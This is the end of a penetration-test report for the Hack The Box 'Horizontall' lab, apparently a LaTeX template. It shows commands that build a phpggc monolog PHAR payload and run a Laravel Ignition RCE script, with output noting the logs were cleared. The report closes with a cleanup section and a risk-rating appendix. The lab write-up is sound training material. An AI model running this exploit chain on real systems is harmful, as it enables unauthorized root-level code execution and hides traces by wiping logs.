\ExtensionTok{remote}\NormalTok{: Compressing objects: 100\% (471/471), }\KeywordTok{done}\ExtensionTok{.}
\ExtensionTok{remote}\NormalTok{: Total 2504 (delta 331), }\ExtensionTok{reused}\NormalTok{ 740 (delta 251), }\ExtensionTok{pack{-}reused}\NormalTok{ 1658}
\ExtensionTok{Receiving}\NormalTok{ objects: 100\% (2504/2504), }\ExtensionTok{379.20}\NormalTok{ KiB }\KeywordTok{|} \ExtensionTok{866.00}\NormalTok{ KiB/s, done.}
\ExtensionTok{Resolving}\NormalTok{ deltas: 100\% (973/973), }\KeywordTok{done}\ExtensionTok{.}
\ExtensionTok{Updating}\NormalTok{ files: 100\% (186/186), }\KeywordTok{done}\ExtensionTok{.}
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ cd phpggc/}
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall/phpggc$ php {-}d}\StringTok{\textquotesingle{}phar.readonly=0\textquotesingle{}}\NormalTok{ ./phpggc {-}{-}phar phar {-}o /tmp/exploit.phar {-}{-}fast{-}destruct monolog/rce1 system }\StringTok{"cat /root/root.txt"}
\end{Highlighting}
\end{Shaded}

Finally, executing the exploit the file is retrieved from the system.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{kali@kali}\NormalTok{:\textasciitilde{}/Documents/HTB/Horizontall$ python3 laravel{-}ignition{-}rce.py http://localhost:8000/ /tmp/exploit.phar}
\ExtensionTok{+}\NormalTok{ Log file: /home/developer/myproject/storage/logs/laravel.log}
\ExtensionTok{+}\NormalTok{ Logs cleared}
\ExtensionTok{+}\NormalTok{ Successfully converted to PHAR !}
\ExtensionTok{+}\NormalTok{ Phar deserialized}
\ExtensionTok{{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\NormalTok{[}\ExtensionTok{CENSORED}\NormalTok{]}
\ExtensionTok{{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\ExtensionTok{+}\NormalTok{ Logs cleared}
\end{Highlighting}
\end{Shaded}

\hypertarget{house-cleaning}{%
\section{HOUSE CLEANING}\label{house-cleaning}}

During a penetration testing engagement, tools, files, user accounts,
etc., were created on the client's environment which would compromise
the client's security. After the completion of the engagement,
\texttt{\textless{}NAME\ OF\ ASSESSING\ COMPANY\textgreater{}} ensures
that remnants of the test are removed.

\hypertarget{appendix}{%
\section{Appendix}\label{appendix}}

\hypertarget{changes-during-the-test}{%
\subsection{Changes during the test}\label{changes-during-the-test}}

{[}\ldots{]}

\hypertarget{risk-rating-scale}{%
\subsection{Risk rating Scale}\label{risk-rating-scale}}

\begin{longtable}[]{@{}ll@{}}
\toprule
\begin{minipage}[b]{0.31\columnwidth}\raggedright
Risk\strut
\end{minipage} & \begin{minipage}[b]{0.63\columnwidth}\raggedright
Description\strut
\end{minipage}\tabularnewline
\midrule
\endhead
\begin{minipage}[t]{0.31\columnwidth}\raggedright
\textcolor{Critical}{Critical}\strut
\end{minipage} & \begin{minipage}[t]{0.63\columnwidth}\raggedright
The vulnerability poses an immediate threat to the organization.
Successful exploitation may permanently affect the organization.
Remediation should be immediately performed.\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.31\columnwidth}\raggedright
\textcolor{High}{High}\strut
\end{minipage} & \begin{minipage}[t]{0.63\columnwidth}\raggedright
The vulnerability poses an urgent threat to the organization, and
remediation should be prioritized.\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.31\columnwidth}\raggedright
\textcolor{Medium}{Medium}\strut
\end{minipage} & \begin{minipage}[t]{0.63\columnwidth}\raggedright
Successful exploitation is possible and may result in notable disruption
of business functionality. This vulnerability should be remediated when
feasible.\strut
\end{minipage}\tabularnewline
\begin{minipage}[t]{0.31\columnwidth}\raggedright
\textcolor{Low}{Low}\strut
\end{minipage} & \begin{minipage}[t]{0.63\columnwidth}\raggedright
The vulnerability poses a negligible/minimal threat to the organization.
The presence of this vulnerability should be noted and remediated if
possible.\strut
\end{minipage}\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{vulnerability-states}{%
\subsection{Vulnerability states}\label{vulnerability-states}}

The vulnerabilities can be in one of the following states:

\begin{itemize}
\item
  \textbf{Potential}: The vulnerability has been identified but its
  exploitation has not been possible, so its existence cannot be fully
  verified, and it is up to the client to determine the impact.
\item
  \textbf{Active}: The vulnerability has been identified and it has been
  possible to verify its existence.
\end{itemize}

\end{document}
